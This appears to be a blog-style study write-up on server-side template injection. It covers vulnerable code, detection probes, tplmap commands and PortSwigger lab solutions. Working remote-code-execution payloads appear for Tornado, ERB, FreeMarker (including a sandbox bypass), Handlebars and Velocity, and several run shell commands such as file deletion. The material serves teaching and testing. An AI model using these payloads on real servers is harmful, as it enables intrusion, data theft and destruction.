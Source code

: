 ```yaml
---
title: "Server Side Templete Injection"
tags:
    - WEB
    - ssti
date: "2024-08-6"
thumbnail: "/assets/img/thumbnail/ssti.jpg"
bookmark: true
---
```

# Description
---
some web application use template to enable dynamic content generation in pages 
Attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
attacks depending on the template engine in question and how exactly the application uses it.
# impact
---
- remote code execution,
- taking full control of the back-end server
- read access to sensitive data and arbitrary files on the server.
---
**Not vulnerable to server-side template injection:**
because the user's first name is merely passed into the template as data.
```python
 $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```
**Vulnerable to server-side template injection:**
```python
`$output = $twig->render("Dear " . $_GET['name']);`
```
**Server-side template injection attack**
<img src="/assets/img/ssti/1.png">
<img src="/assets/img/ssti/2.png">
For example, the payload `{{7*'7'}}`returns `49`in Twig and `7777777` in Jinja2

**Basic template syntax**
```python
<%
    import os
    x=os.popen('id').read()
%>
    ${x}
```
**To get Template type:**
1- make error to get it like abuse syntax
2- trying 
```bash
`{{7*7}}`
`${7*7}`
`${{7*7}}`
`#{7*7}`
`*{7*7}`
`${{<%[%'"}}%\`
```
**Tools**
1- The basic syntax for tplmap is different depending on whether you're using get or post
 GET ->  tplmap -u url/?vulnparam 

 POST-> tplmap -u url -d vulnparam 
```bash
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’ --os-cmd “id”
```
**Explore**
Many template engines expose a "`self`" or "`environment`" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine.
Some objects because they are especially likely to contain sensitive information or exploitable methods.
For example, in Java-based templating languages, you can sometimes 
list all variables in the environment using the following injection:
```java
${T(java.lang.System).getenv()}
```
**Exploit using an object chain (way to bypass sandbox)**
Chaining together the right objects and methods sometimes allows you to gain access to dangerous functionality and sensitive data that initially appears out of reach.
For example, in the Java-based template engine Velocity, you have access to a `ClassTool` object called `$class`. Studying the documentation reveals that you can chain the `$class.inspect()` method and `$class.type`property to obtain references to arbitrary objects. In the past, this 
has been exploited to execute shell commands on the target system as 
follows:
```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
# Portswigger Scenarios 
---
**1- Tornado (Python)**
make error to know the template type
code:
<img src="/assets/img/ssti/3.png">
payload:

```python
user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```
**2- ERB (Ruby)**
tried `<%= 7*7 %> = 49` to know template type
```rb
<%= system("rm /home/carlos/morale.txt") %>
```
**3- FreeMarker (Java)**
Make error with ${ testing } to know the template type
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```
**4- Handlebars (NodeJS)**
make error with payloads to know the template type
payloads:
```bash
`{{7*7}}`
`${7*7}`
`<%= 7*7 %>`
`${{7*7}}`
`#{7*7}`
`*{7*7}`
```
we have to url encode it to able to put it in parameter (message)
```js
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
**5- Jinja2 (Python)**

after we knew we using python so we tried `{% debug %}` it debug all objects , one of them was `settings` so we tried {{settings.SECRET_KEY}}

settings is object 

SECRET_KEY is method

**6- FreeMarker (Java) Bypass sandbox**

Make error with ${ testing } to know the template type

```bash
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

but we notice article isn’t object in this website so we have to change it to right one

# Mitigation

- never allow users to modify or create templates.
- use of regex, white lists of authorised expressions.
- Sandboxing that creates a safe, isolated environment for users. but sandbox environments are difficult to set up and can be bypassed
  by misconfiguration or oversights.
---

Reference 4 all exploits [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection]
---

